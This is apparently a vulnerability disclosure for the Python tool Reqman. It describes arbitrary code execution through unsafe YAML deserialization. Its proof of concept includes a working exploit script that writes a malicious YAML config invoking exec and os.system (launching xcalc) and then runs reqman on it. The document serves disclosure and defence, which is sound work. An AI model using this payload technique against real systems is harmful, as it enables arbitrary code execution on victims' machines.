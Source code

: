 # Description

`Reqman` is a postman killer, which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip3 install reqman
```

### Run exploit.py
```
import os
#os.system('pip3 install reqman')
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
os.system('reqman config.yml')

```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
